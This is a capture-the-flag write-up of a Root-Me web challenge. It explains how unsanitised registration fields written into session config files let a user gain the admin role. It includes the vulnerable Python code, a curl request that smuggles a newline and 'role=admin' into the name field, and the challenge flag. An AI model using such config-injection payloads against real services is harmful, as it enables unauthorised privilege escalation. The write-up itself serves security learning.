


# New New Always New (day15)
<p align="justify">This challenge was a Web challenge in which we had to get admin access to read the flag. The source code(python server) was available to downlaod on the challenge site and is attached to  this repo.</p>

<p align="center"></p>

<p align="justify">Looking at the source code it appeared that the flag was exposed in the admin section (available under app.py in this repo). Besides, the session and access were managed thanks to uuid generated when user register on the server. Below the function that handles the user registration, generating a config file based on a uuid and writing user information into the config file : </p>

````python
def create_session(email, name, role):
    session_id = str(uuid.uuid4())
    session_file = os.path.join(SESSION_DIR, f'session_{session_id}.conf')

    with open(session_file, 'w') as f:
        f.write(f'email={email}\n')
        f.write(f'role={role}\n')
        f.write(f'name={name}\n')

    return session_id
````
<p align="justify">Below is the route used through POST request to register a user on the server. It appeared that the input provided wasn't cleared or processed before being sent through server , meaning it could possibly be exploited for injection. </p>

````python
@app.route('/register', methods=['POST'])
def register():
    email = request.json.get('email')
    name = request.json.get('name')
    password = request.json.get('password')

    password_hash = generate_password_hash(password)

    user = User(email=email, name=name, role='user', password_hash=password_hash)
    db.session.add(user)
    db.session.commit()

    return jsonify(success="User registered successfully"), 201
````
<p align="justify">Hence what I've tried was to add a line with 'role=admin' in my file by giving the username Axel2\nrole=admin. Considering that the content of the config file wasn't checked (number of line for instance), I was expecting server to use the last line to set my role. As a result, after the injection the overwritten config file was expected to be something like : </p>

````text
emain=xxxxx
role=user
name=axel
role=admin
````

````bash
curl -k -X POST https://day15.challenges.xmas.root-me.org/register -H "Content-Type: application/json" -d '{"email": "user@example.com","name": "Axel2\nrole=admin","password": "azerty"}'
````

<p align="justify"> After I registered my user , I logged In and retreived my access token generated. To get sure that my role was 'admin' I used the 'Dashboard', designed to display informations about user session. The exploited did worked well because I was granted admin role : </p>

<p align="center"></p>

<p align="justify">Finaly, I accessed the admin section and got the flag : </p>

<p align="center"></p>

Flag : _RM{I_Thought_Th1s_VUlnerability_W4s_N0t_Imp0rtant}_, thanks _Elweth_ for this challenge !

 
